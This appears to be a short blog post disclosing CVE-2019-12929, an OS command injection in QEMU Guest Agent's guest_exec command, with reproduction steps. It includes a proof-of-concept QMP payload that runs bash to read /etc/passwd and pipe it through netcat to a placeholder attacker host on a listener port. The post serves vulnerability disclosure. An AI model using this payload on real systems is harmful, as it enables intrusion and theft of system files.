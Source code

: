 ```yaml
---
layout: post
title: "[CVE-2019-12929] QEMU Guest Agent guest_exec Command Execution"
date: 2019-06-06
categories:
    - blog
tags:
    - remote command execution
keywords: "qemu, qemu-ga, guest_exec, command execution"
---
```


The QMP `guest_exec` command in QEMU 4.0.0 and earlier is prone to OS command injection, which allows the attacker to achieve code execution, denial of service, or information disclosure by sending a crafted QMP command to the listening server.

1st, execute the QEMU Guest Agent service<br>
2nd, open another console and setup a listener to port 9999<br>
3rd, connect to the target and enter the following commands:

```
{'execute':'guest-exec','arguments':{'path':'/bin/bash','arg': ['-c', 'cat /etc/passwd | nc <attacker_ip> 9999']}}
```